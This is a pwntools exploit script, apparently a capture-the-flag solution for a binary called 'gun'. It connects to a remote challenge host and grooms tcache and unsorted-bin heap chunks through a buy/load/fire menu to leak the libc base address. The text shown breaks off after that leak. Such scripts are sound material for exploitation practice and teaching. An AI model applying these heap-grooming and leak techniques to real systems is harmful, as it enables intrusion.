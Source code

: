 ```
#! /usr/bin/python
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

#sh = process('./gun')
#proc_base = sh.libs()[sh.cwd + sh.argv[0].strip('.')]
sh = remote('123.56.96.75', 30772)
elf = ELF('./gun')
libc = ELF('./libc.so.6')

def Log(val):
	log.success('%s = %s'%(str(val), hex(eval(val))))

def Name(name):
	sh.recvuntil('name')
	sh.sendline(name)

def Cmd(i):
	sh.recvuntil('Action> ')
	sh.sendline(str(i))

def Buy(sz, cont):
	Cmd(3)
	sh.sendlineafter('Bullet price: ', str(sz))
	sh.recvuntil('Bullet Name: ')
	sh.send(cont)
	#sh.recvuntil('Confirm')

def Load(idxs):
	for idx in idxs:
		Cmd(2)
		sh.sendlineafter('Which one do you want to load?', str(idx))
		sh.recvuntil('Confirm')

def Fire(cnt):
	Cmd(1)
	sh.sendlineafter('Shoot time: ', str(cnt))

def Exit():
	Cmd(4)

Name('AAA')

#leak addr
for i in range(8):
	Buy(0x79, 'leak addr\n')	#chunk size: 0x90
Buy(0x10, 'gap\n')		#gap
Load([7, 6, 5, 4, 3, 2, 1, 0])
Fire(8)		#Tcache[0x90]->6->5->4->3->2->1->0, UB<=>7

for i in range(7):
	Buy(0x79, '\n')
Buy(0x10, '\n')	#splite UB

Load([0, 1, 2, 3, 4, 5, 6, 7])
Fire(8)
sh.recvuntil('Pwn! The ')
libc.address = u64(sh.recv(6)+'\x00\x00') - 0x1ebc60
Log('libc.address')

sh.recvuntil('Pwn! The ')
sh.recvuntil('Pwn! The ')
```